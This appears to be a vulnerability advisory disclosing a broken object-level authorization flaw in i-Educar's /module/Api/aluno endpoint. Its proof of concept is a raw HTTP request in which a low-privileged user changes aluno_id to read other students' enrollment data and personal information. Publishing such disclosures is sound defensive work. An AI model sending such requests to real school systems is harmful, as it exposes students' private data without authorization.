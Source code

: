 # Broken Object Level Authorization (BOLA) allows enumeration of student records via /module/Api/aluno

### Summary

A Broken Object Level Authorization (BOLA) vulnerability was identified in the `/module/Api/aluno` endpoint of the **i-Educar** application.  
This flaw allows low-privileged users (e.g., standard student/responsible accounts) to retrieve enrollment (`matriculas`) information of students outside their scope, exposing Personally Identifiable Information (PII) without proper authorization checks.

---

### Details

**Vulnerable Endpoint:**  
`GET /module/Api/aluno`

The application fails to enforce **object-level authorization** when handling this endpoint. As a result, any authenticated user can manipulate the request values to access sensitive information (names, IDs, enrollment status) of students.

---
### Proof of Concept (PoC)

1. Authenticate as a non-privileged user.

<img width="1380" height="528" alt="Pasted image 20250821225155" src="https://github.com/user-attachments/assets/abcb3516-444a-48cd-8af4-563276d1b952" />
<img width="846" height="616" alt="Pasted image 20250821225232" src="https://github.com/user-attachments/assets/ac9b27b6-4a94-4bbc-9e07-2a2db6fc1548" />


2. Send the following request:

```
GET /module/Api/aluno?&oper=get&resource=matriculas&aluno_id=206 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://localhost/intranet/educar_aluno_det.php?cod_aluno=206
Cookie: i_educar_session=[LOW PRIVILEGED COOKIE]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

```

<img width="1345" height="676" alt="Pasted image 20250821224929" src="https://github.com/user-attachments/assets/3068c382-fb51-4bb6-9846-5ee9ebd27d1d" />


3. We could observe that informations about the student were returned.

---

### Impact

This vulnerability exposes **Personally Identifiable Information (PII)** of students, including:

- Names
    
- Class, course, and enrollment status
    
- Institutional relationships
    

**Potential risks include:**

- Unauthorized data harvesting of all students across institutions
    
- Privacy violations (LGPD compliance risk)
    
- Social engineering opportunities by attackers
    
- Reputational damage for the institution
    

**Severity:** High

- Low privileges required
    
- High impact (sensitive data exposure)
    
- Easy to exploit with parameter tampering


## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
    

---
